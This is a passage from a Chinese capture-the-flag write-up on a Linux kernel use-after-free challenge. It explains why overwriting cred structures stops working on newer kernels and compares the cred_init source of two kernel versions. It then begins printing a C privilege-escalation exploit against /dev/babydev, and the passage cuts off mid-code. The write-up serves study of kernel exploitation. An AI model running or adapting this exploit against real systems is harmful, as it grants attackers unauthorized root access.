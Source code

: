 
> 这道题在当年的解法据悉是**通过 UAF 修改该进程的 cred 结构体的 uid、gid 为0**，十分简单十分白给
>
> 但是**此种方法在较新版本 kernel 中已不可行，我们已无法直接分配到 cred\_jar 中的 object**，这是因为 cred\_jar 在创建时设置了 `SLAB_ACCOUNT` 标记，在 `CONFIG_MEMCG_KMEM=y` 时（默认开启）**cred\_jar 不会再与相同大小的 kmalloc-192 进行合并**
>
> > 来着内核源码 4.5 `kernel/cred.c`
> >
> > ```c
> > void __init cred_init(void)
> > {
> > 	/* allocate a slab in which we can store credentials */
> > 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
> > 			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
> > }
> > ```
> >
> > 本题（4.4.72）：
> >
> > ```c
> > void __init cred_init(void)
> > {
> > 	/* allocate a slab in which we can store credentials */
> > 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
> > 				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
> > }
> > ```
>
> > 既然现在新的保护机制都出来了，那笔者认为在学习 kernel UAF 的过程中忽视掉这一点便是**自欺欺人**，故这里便**不再考虑**以前旧的做法，感兴趣的参考如下exp：
> >
> > ```c
> > #include <stdio.h>
> > #include <stdlib.h>
> > #include <string.h>
> > #include <unistd.h>
> > #include <fcntl.h>
> > #include <sys/types.h>
> > 
> > int main(void)
> > {
> >  printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
> > 
> >  int fd1 = open("/dev/babydev", 2);
> >  int fd2 = open("/dev/babydev", 2);
> > 
> >  ioctl(fd1, 0x10001, 0xa8);
> >  close(fd1);
> > 
> >  int pid = fork();
> > 
> >  if(pid < 0)
> >  {
> >      printf("\033[31m\033[1m[x] Unable to fork the new thread, exploit failed.\033[0m\n");
> >      return -1;
> >  }
> >  else if(pid == 0) // the child thread
> >  {
> >      char buf[30] = {0};
> >      write(fd2, buf, 28);
> > 
> >      if(getuid() == 0)
> >      {
> >          printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");